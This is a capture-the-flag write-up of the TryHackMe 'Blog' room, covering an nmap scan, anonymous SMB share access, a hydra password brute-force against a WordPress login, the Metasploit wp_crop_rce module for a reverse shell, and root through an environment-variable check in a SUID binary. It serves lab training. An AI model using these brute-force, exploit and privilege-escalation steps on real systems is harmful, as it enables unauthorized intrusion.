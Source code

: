 ```yaml
---
title: "TryHackMe - Blog"
author: Nasrallah
description: ""
date: 2022-09-23 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, smb, rce, cve, wordpress, suid]
img_path: /assets/img/tryhackme/blog
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Blog](https://tryhackme.com/room/blog) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.93.163                                                                                                                      [2/19]
Host is up (0.10s latency).
Not shown: 996 closed tcp ports (reset) 
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:      
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry                                         
|_/wp-admin/          
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0                                               
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
                                       
Host script results:                                                          
| smb2-time:                                                                                                                                                 
|   date: 2022-09-13T08:26:39
|_  start_date: N/A                                                                                                                                          
|_clock-skew: mean: -31m07s, deviation: 0s, median: -31m08s 
| smb-os-discovery:                                                           
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog           
|   NetBIOS computer name: BLOG\x00                                                                                                                          
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2022-09-13T08:26:39+00:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

There are 4 ports open on this ubuntu machine, port 22 running OpenSSH, 80 running Apache web server, and there is an SMB also running on the machine.

### SMB

Let's list the shares with the command `sudo smbclient -L {targetIP} -N`

```terminal
$ sudo smbclient -L 10.10.93.163 -N
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------
        BLOG                 blog server (Samba, Ubuntu)

        Workgroup            Master
        ---------            -------
        WORKGROUP            BLOG

```

There is an interesting share called `BillySMB`, let's connect to with with the command `sudo smbclient //10.10.10.10/BillySMB -N`

```terminal
$ sudo smbclient //10.10.93.163/BillySMB -N                                                                                                            1 ⨯
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 14:17:05 2020
  ..                                  D        0  Tue May 26 13:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020

                15413192 blocks of size 1024. 9790380 blocks available
smb: \> get Alice-White-Rabbit.jpg
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (64.8 KiloBytes/sec) (average 64.8 KiloBytes/sec)
smb: \> get tswift.mp4
getting file \tswift.mp4 of size 1236733 as tswift.mp4 (475.3 KiloBytes/sec) (average 407.5 KiloBytes/sec)
smb: \> get check-this.png
getting file \check-this.png of size 3082 as check-this.png (8.6 KiloBytes/sec) (average 366.1 KiloBytes/sec)
smb: \> 

```

We found tree file inside the share and downloaded them with `get {file_name}`.

All the files are rabbit holes and useless to us.

### Web

Let's add `blog.thm` to our /etc/hosts file and navigate to it.

![](1.png)

We found a wordpress blog that belongs to billy. After some enumeration, we find two users `bjoel` and `kwheel`. Let's brute force the login of these users.

```bash
hydra -l {username} -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"
```

![](2.png)

Got the password. Let's login.

![](3.png)

## **Foothold**

After successfully logging in, we can see at the bottom right of the dashboard the version of wordpress being used which is `5.0`. Let's check for available exploits in this version.

![](4.png)

There is a metasploit module that gives remote code execution via image upload.

Let's start metasploit, use `exploit/multi/http/wp_crop_rce` and set the required options as follows.

```
use exploit/multi/http/wp_crop_rce

set username {username}

set password {password}

set LHOST tun0

set RHOST blog.thm
```

Now enter `exploit` to run the module.

![](7.png)

Nice, we got a shell.

I uploaded a php reverse shell to wordpress root directory so that in case i lost the current session i don't have to run the exploit again.

![](5.png)

Next i setup a netcat listener and requested the file i uploaded.

![](6.png)


## **Privilege Escalation**

I uploaded a copy of linpeas to the target, run it and got the following.

![](8.png)

There is an unusual SUID binary that when we run it, it prints out `Not an Admin`

```terminal
$ /usr/sbin/checker
Not an Admin
```

Let's see what the binary does with `ltrace`.

```terminal
$ ltrace checker
getenv("admin")      = nil
puts("Not an Admin") = 13
Not an Admin 
```

The program gets checks the admin env variable, if it's null it prints the Not an Admin.

We can try setting the admin variable to anything

```terminal
www-data@blog:/tmp$ export admin=1
www-data@blog:/tmp$ checker
root@blog:/tmp# id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@blog:/tmp# 
```

Got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
